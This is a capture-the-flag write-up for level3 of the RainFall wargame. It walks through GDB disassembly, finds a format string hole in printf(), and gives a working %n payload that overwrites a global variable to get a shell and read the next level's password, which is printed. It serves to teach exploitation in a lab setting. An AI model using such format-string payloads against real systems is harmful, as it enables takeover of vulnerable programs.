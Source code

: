 # Level3

## Exploring the binary
```shell
level3@RainFall:~$ ./level3
phantom
phantom
level3@RainFall:~$ ./level3
society42
society42
```
Similar to the <code>level2</code> binary, our executable waits for standard input and then prints it out.

## GDB analysis
```shell
Dump of assembler code for function main:
   0x0804851a <+0>:	push   %ebp
   0x0804851b <+1>:	mov    %esp,%ebp
   0x0804851d <+3>:	and    $0xfffffff0,%esp
   0x08048520 <+6>:	call   0x80484a4 <v>
   0x08048525 <+11>:	leave
   0x08048526 <+12>:	ret
End of assembler dump.
```
The main function calls <code>v()</code> only upon execution.
```shell
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x218,%esp
   0x080484ad <+9>:	mov    0x8049860,%eax
   0x080484b2 <+14>:	mov    %eax,0x8(%esp)
   0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
   0x080484be <+26>:	lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:	mov    %eax,(%esp)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   0x080484e9 <+69>:	mov    %eax,%edx
   0x080484eb <+71>:	mov    $0x8048600,%eax
   0x080484f0 <+76>:	mov    %edx,0xc(%esp)
   0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
   0x080484fc <+88>:	movl   $0x1,0x4(%esp)
   0x08048504 <+96>:	mov    %eax,(%esp)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave
   0x08048519 <+117>:	ret
End of assembler dump.
```
Further inspection of the function draws our attention to <code>0x080484da</code>, where a variable at <code>0x804988c</code> is moved into <code>eax</code> and compared against <code>0x40</code>.
```shell
(gdb) x/s 0x804988c
0x804988c <m>:	 ""
(gdb) print 0x40
$1 = 64
```
This means there is a variable <code>m</code> which we have to modify without having any direct access to it. We check for its existence:
``` shell
All defined variables:

Non-debugging symbols:
0x080485f8  _fp_hw
0x080485fc  _IO_stdin_used
0x08048734  __FRAME_END__
0x08049738  __CTOR_LIST__
0x08049738  __init_array_end
0x08049738  __init_array_start
0x0804973c  __CTOR_END__
0x08049740  __DTOR_LIST__
0x08049744  __DTOR_END__
0x08049748  __JCR_END__
0x08049748  __JCR_LIST__
0x0804974c  _DYNAMIC
0x08049818  _GLOBAL_OFFSET_TABLE_
0x0804983c  __data_start
0x0804983c  data_start
0x08049840  __dso_handle
0x08049860  stdin@@GLIBC_2.0
0x08049880  stdout@@GLIBC_2.0
0x08049884  completed.6159
0x08049888  dtor_idx.6161
0x0804988c  m
```
Since <code>fgets()</code> is used to gather the input, buffer overflow attacks are no longer an option. While 520 bytes are allocated for the buffer (+26), the size of the input read is set to 512 bytes, effectively protecting it. The entire input string is then displayed using <code>printf()</code>, which introduces a vulnerability to a <code>format string</code> attack.

## format string attack
When the input containing format strings is passed to <code>printf()</code>, it is processed and displayed as output. If the input aligns with the expected format specifiers, it is printed correctly. However, if the input includes malicious format specifiers, it can be exploited to manipulate the output or the program's behavior. Since we know the address of <code>m</code>, we will use <code>printf()</code> to modify its value.

The format string vulnerability arises because the program utilizes user input directly in the <code>printf</code> function without adequate sanitization. By passing a string to the function and printing numerous stack addresses (<code>%p</code>) following this string, we can determine the specific stack parameter it occupies.

``` shell
level3@RainFall:~$ python -c 'print "AAAA" + " %p" * 5' > /tmp/pattern3
level3@RainFall:~$ cat /tmp/pattern3 - | ./level3
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520
```
We found success with just 5 addresses and discovered that the string <code>AAAA</code> resides in the fourth position. With our understanding of the format string's location in the stack, our next step is to craft a string 64 characters in length, embedding the address of the variable (<code>0x0804988c</code>) crucial for triggering the shell. Subsequently, we leverage the <code>%n</code> specifier to write this length to the specified address - when the format string <code>%4$n</code> is used, printf will write the number of characters printed so far into the memory location specified by the fourth argument.

## Exploit
``` shell
level3@RainFall:~$ python -c 'print "\x08\x04\x98\x8c"[::-1] + "F"*60 + "%4$n"' > /tmp/flag3
level3@RainFall:~$ cat /tmp/flag3 - | ./level3
�FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
